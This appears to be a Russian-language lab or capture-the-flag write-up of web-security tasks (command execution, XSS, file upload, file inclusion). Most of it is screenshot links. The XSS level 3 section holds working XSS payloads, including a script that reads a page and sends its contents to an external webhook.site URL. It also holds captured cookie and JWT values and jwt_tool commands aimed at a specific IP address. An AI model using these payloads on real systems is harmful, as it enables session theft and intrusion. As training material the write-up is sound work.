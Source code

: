 Задание CE: уровень 0




![image](https://github.com/user-attachments/assets/35395473-951f-4e6b-8135-bcd7bf1e8fc9)


![image](https://github.com/user-attachments/assets/360ca223-440b-4db3-9c9d-91dff4b2b3dd)


![image](https://github.com/user-attachments/assets/0c1967fc-082c-43e3-88b6-27034452d221)




Задание XSS: уровень 0


![image](https://github.com/user-attachments/assets/b36c8816-b801-4863-82db-aa8e5940411e)

![image](https://github.com/user-attachments/assets/8197605c-2165-4646-a0d8-27c1865e0d14)









Задание FU: уровень 0



![image](https://github.com/user-attachments/assets/9c4f8d0f-572a-4397-8467-d04bdf917dd3

![image](https://github.com/user-attachments/assets/87f3e36c-5994-4ce0-81c3-b427f223a4ae)


![image](https://github.com/user-attachments/assets/874509f7-f323-4f30-86e3-c6f90584ec54)

![image](https://github.com/user-attachments/assets/c653cfc3-2808-4542-9d8b-72afbdaf41c0)










Command Execution: уровень 1

![image](https://github.com/user-attachments/assets/b7ebee0b-3b24-41de-aa81-83540012771a)

![image](https://github.com/user-attachments/assets/cfa68234-318c-41f3-8fb6-f60d2c0faaa2)

![image](https://github.com/user-attachments/assets/4f956069-8a47-4900-8962-71ba8103f02d)



Command Execution: уровень 2


![image](https://github.com/user-attachments/assets/4f2182ee-3b58-4be8-8407-d5c353a10680)


![image](https://github.com/user-attachments/assets/ea996ee5-fe19-47d3-82ae-be4f20bbfb8d)




![image](https://github.com/user-attachments/assets/75ee9eb2-423a-4a37-ab62-975791109093)

![image](https://github.com/user-attachments/assets/7efa1922-9ed9-419b-a7de-fce6a679acb8)




Command Execution: уровень 3

![image](https://github.com/user-attachments/assets/6e7ff00c-b425-47ec-b141-198de6fc58cb)

![image](https://github.com/user-attachments/assets/7cab80e3-b248-480f-8526-bac6d03bc214)

![image](https://github.com/user-attachments/assets/17ea7e22-1900-42e2-a690-1c6942bbdc38)



Command Execution: уровень 4


![image](https://github.com/user-attachments/assets/a797218f-b1dd-4fc3-9d02-2c743f720e34)

![image](https://github.com/user-attachments/assets/493e9da4-b2b0-49f7-a5dd-a0cc15250ba7)





 XSS: уровень 1

 ![image](https://github.com/user-attachments/assets/a200b3e2-622a-4419-8f5b-cb6420feaa74)

 <script>alert(document.cookie)</script>
![image](https://github.com/user-attachments/assets/62e43c79-285c-48cc-941f-9b8698606d7d)



 XSS: уровень 2

 
<body onload=alert(document.cookie)>

 ![image](https://github.com/user-attachments/assets/14402f74-d56c-4beb-a4fe-097906b96645)
 

![image](https://github.com/user-attachments/assets/8d07cb68-9225-41d2-88f3-4d6e0c68bc02)



  XSS: уровень 3


![image](https://github.com/user-attachments/assets/9c05f94f-ec0c-4ca0-8581-892fb8a2a8c6)





 ![image](https://github.com/user-attachments/assets/b4bddabe-5e73-41a6-920c-91eb1c49f105)

{"alg":"HS256","typ":"JWT"}



'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>

<img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id)>'">

<SvG/oNloAd=alert(/w4piesy3nm/)>

some_important_info

<SvG/oNloAd=alert(some_important_info.txt)>

![image](https://github.com/user-attachments/assets/3092edf7-eacf-44ef-9b63-c685cb6f04ae)


![image](https://github.com/user-attachments/assets/1db9e6f9-d01e-483d-92a3-c297622c1ce9)



token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU; secret=MzB7WDU1X0MwMGsxM19Nb05TdDNyX30K; important_person_cookies=MzB7eHM1XzFkS193SDBfbjMzRF9pdH0K; token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU



<script>fetch('/some_important_info').then(r=>r.text()).then(d=>fetch('https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f?flag='+d))</script>


<SvG/oNloAdfetch('/some_important_info').then(r=>r.text()).then(d=>fetch('[https://your-server.com](https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f)?flag='+d))>

<script src="file:/var/www/html/csp-pentesting/malicious.js"></script>

	https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f

python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test"

python3 jwt_tool.py -t http://51.250.91.149/XSS/XSS_level3.php -rc "jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU;anothercookie=test" -M pb-np


![image](https://github.com/user-attachments/assets/6def24d6-e4ef-431c-9ea4-770bf8c84be5)

![image](https://github.com/user-attachments/assets/8899d99c-af68-4706-9606-d505730989e4)

![image](https://github.com/user-attachments/assets/a9f8020a-6fd6-4069-89a4-71a248193b3c)



  XSS: уровень 4

  
  ![image](https://github.com/user-attachments/assets/53ae8c91-d57b-469e-a8db-58823efef263)
  

![image](https://github.com/user-attachments/assets/b975d289-b902-4242-a5c9-838c07e6d4a2)


![image](https://github.com/user-attachments/assets/813d410c-f4ba-4b5b-86bb-eb846e0188a7)


![image](https://github.com/user-attachments/assets/5ed73545-dc70-487e-8294-ae52728ba45e)




File Inclusion: уровень 1

![image](https://github.com/user-attachments/assets/a06f1a4d-ad4a-46af-9102-9b81671add90)


File Inclusion: уровень 2

![image](https://github.com/user-attachments/assets/b6e3b87d-2443-4c8e-b379-21ef0a089335)



![image](https://github.com/user-attachments/assets/141c0458-fa18-46cd-b1ea-89da7be6ae13)


![image](https://github.com/user-attachments/assets/cbe58cb1-8a85-401d-bacb-079394f3a488)





File Inclusion: уровень 3

![image](https://github.com/user-attachments/assets/93c358d5-c2eb-4e04-9464-872663714c45)

![image](https://github.com/user-attachments/assets/15697450-b352-452c-bab2-ef50d7decd20)


![image](https://github.com/user-attachments/assets/9ae24d63-7ca9-4ee4-81cb-f729427a1f77)


![image](https://github.com/user-attachments/assets/2e78e121-203d-410b-b037-7f1ca77ef689)




![image](https://github.com/user-attachments/assets/f87d0dff-8c4c-4cd3-9178-709a0c905e51)




File Inclusion: уровень 4

![image](https://github.com/user-attachments/assets/03f4b645-8fdd-4de7-9d9d-d8334b88638d)

![image](https://github.com/user-attachments/assets/261345c3-4199-4cd4-9614-23e40fc47571)

![image](https://github.com/user-attachments/assets/84f369cd-0716-460e-8df9-5da08c378538)
